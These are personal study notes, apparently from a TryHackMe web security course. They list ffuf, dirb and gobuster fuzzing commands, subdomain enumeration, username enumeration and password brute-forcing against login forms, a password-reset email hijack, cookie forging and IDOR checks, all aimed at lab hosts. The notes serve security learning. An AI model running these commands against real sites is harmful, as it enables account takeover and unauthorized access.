 ## Content Discovery
- Wappalyzer (https://www.wappalyzer.com/)
- The Wayback Machine (https://archive.org/web/)
- Automated Discovery https://github.com/danielmiessler/SecLists 
- ffuf,  “Fuzz Faster you Fool” 
- ``` user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://MACHINE_IP/FUZZ ```
- dirb 
- ``` user@machine$ dirb http://MACHINE_IP/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt ```
- gobuster
- ``` user@machine$ gobuster dir --url http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt ```

## Subdomain Enumeration
1. Certificate Transparency (CT) logs
- SSL/TLS Certificates. (https://crt.sh ; https://transparencyreport.google.com/https/certificates)
2. google search ```-site:www.tryhackme.com  site:*.tryhackme.com```
3. ``` dnsrecon -t brt -d acmeitsupport.thm ```
4. ``` ./sublist3r.py -d acmeitsupport.thm ```
5. private DNS server. "/etc/hosts" file (or c:\windows\system32\drivers\etc\hosts file for Windows users) 
6. ``` ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.123.130 ```
7. ``` ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.123.130 -fs {size} ``` -fs switch, which tells ffuf to ignore any results that are of the specified size.

## Authentication Bypass
**fuzz posibble exist usernames.**
- https://github.com/ffuf/ffuf
- ``` ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.94.177/customers/signup -mr "username already exists" ```
-  -X argument specifies the request method.
-  -d argument specifies the data that we are going to send.
-  -H argument is used for adding additional headers to the request. setting the "Content-Type" to the webserver knows we are sending form data. 
-  -u argument specifies the URL we are making the request to.
-  -mr argument is the text on the page we are looking for to validate we've found a valid username.

**brute force**
- ``` ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.2.151/customers/login -fc 200 ```
- -fc argument to check for an HTTP status code other than 200.

**logic flaw**
- ``` curl 'http://10.10.2.151/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm' ```
- the server send email to the address client posts

**cookie tempering**
- ``` curl -H "Cookie: logged_in=true; admin=true" http://10.10.2.151/cookie-test ```
- Hash crack website. https://crackstation.net/

## IDOR
-  Insecure Direct Object Reference

**find IDOR in Encode IDs**
- https://www.base64decode.org/; https://www.base64encode.org/ 

**find IDOR in Hashed IDs**
- https://crackstation.net/
